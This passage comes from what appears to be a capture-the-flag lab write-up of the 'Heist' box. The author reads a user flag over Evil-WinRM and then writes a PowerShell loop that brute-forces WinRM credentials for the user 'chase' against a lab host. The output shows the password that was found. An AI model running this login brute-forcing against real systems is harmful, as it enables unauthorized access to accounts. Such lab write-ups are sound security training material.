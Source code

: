     
    
    *Evil-WinRM* PS C:\Users\Chase\desktop> cat user.txt
    a127daef************************
    

### Script It

That was a fair amount of guessing, and I am much happier if I can script
something, even if just in a console, to do the brute force for me. Because
getting better at PowerShell is on my to-do list, I decided to try that.

I’ll start a PowerShell docker container, using `-v` to mount my current
directory with my passwords list into `/opt`:

    
    
    root@kali# docker run -v $(pwd):/opt/heist -it quickbreach/powershell-ntlm
    PowerShell 6.1.1
    Copyright (c) Microsoft Corporation. All rights reserved.
    
    https://aka.ms/pscore6-docs
    Type 'help' to get help.
    
    PS />
    

Now, I’ll write a loop to try each of the passwords I’ve collected with WinRM
with the new user, Chase:

    
    
    PS /opt/heist> foreach($pass in cat ./passwords) {  
    >>     $user = "chase"
    >>     $secstr = New-Object -TypeName System.Security.SecureString
    >>     $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    >>     $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
    >>     $res = New-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $cred -ErrorAction SilentlyContinue
    >>     if($res -ne $null) {
    >>         echo "[+] Found password: $pass"
    >>         Enter-PSSession $res
    >>     } else {
    >>         echo "[-] Password failed: $pass"
    >>     }
    >> }
    [-] Password failed: stealth1agent
    [-] Password failed: $uperP@ssword
    [+] Found password: Q4)sJu\Y8qz*A3?d
    [10.10.10.149]: PS C:\Users\Chase\Documents> whoami
    supportdesk\chase
    

The first line just loops over the lines in my password file. The next four
lines set up the Windows credential object. The fifth line tries to create a
PSSession using the credential. Then there’s a branch. If success, print
message and connect. Otherwise, alert to failure, and continue.
